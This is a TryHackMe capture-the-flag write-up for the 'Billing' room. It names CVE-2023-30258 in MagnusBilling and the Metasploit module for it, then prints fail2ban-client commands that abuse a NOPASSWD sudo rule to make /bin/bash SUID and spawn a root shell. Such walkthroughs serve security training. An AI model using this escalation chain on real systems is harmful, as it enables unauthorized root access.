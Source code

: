 ```yaml
---
title: TryHackMe Billing Write-Up Walk Through
date: 2025-03-09 08:00:00 +0200
categories: [TryHackMe, CTF, TryHackMe Write Up]
tags: [tryhackme,ctf, magnusbilling, ctf, fail2ban,unauthenticated Remote Command Execution]
description: "Exploit CVE-2023-30258 on TryHackMe's Billing room and escalate to root with fail2ban-client."
comments: false
media_subpath: /assets/img/
image:
  path: tryhackme-billings-room-f.png
  alt: TryHackMe Billing
---
```


## TryHackMe Billing Room: MagnusBilling Exploit - From Initial Access to Root

After running an initial scan, you'll discover a **MagnusBilling** instance running on **port 80**. A quick Google search reveals **CVE-2023-30258**, an **unauthenticated Remote Command Execution (RCE)** vulnerability—your ticket in.

**[You can follow YouTube video walk through here](https://youtu.be/p2ozqA4nbLg)**

## Exploiting CVE-2023-30258: Two Paths to Initial Access

There are two effective ways to exploit this:

- **Metasploit Module**: Fire up the `magnusbilling_unauth_rce_cve_2023_30258` module. Set your `LHOST` (your IP) and `RHOST` (target IP) to snag a shell.
- **Python Script**: Prefer a hands-on approach? Use a custom Python script for manual RCE.

Both drop you into a shell as the `asterisk` user on the `Billing` machine.

## Privilege Escalation: Unlocking Root with `fail2ban-client`

Once inside, run `sudo -l` and you'll see:

```console
asterisk@Billing:/$ sudo -l
Matching Defaults entries for asterisk on Billing:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

This is gold. The `asterisk` user can run `/usr/bin/fail2ban-client` as **root** without a password, opening up multiple escalation paths.

### Example Exploit: SUID Root Shell

Here's one method to get root:

```console
sudo /usr/bin/fail2ban-client set sshd addaction myexploit
sudo /usr/bin/fail2ban-client set sshd action myexploit actionban "chmod +s /bin/bash"
sudo /usr/bin/fail2ban-client set sshd banip 1.2.3.5
ls -l /bin/bash
/bin/bash -p
```

# Want the Full Walkthrough?

Check out my **[full video walkthrough](https://youtu.be/p2ozqA4nbLg)** on my YouTube channel for step-by-step guidance:

**[CLICK HERE FOR YOUTUBE VIDEO WALK THROUGH](https://youtu.be/p2ozqA4nbLg)**

<a href="https://youtu.be/p2ozqA4nbLg">
  <img src="tryhackme-billings-room-youtube.png"  alt="TryHackMe Billing" >
</a>


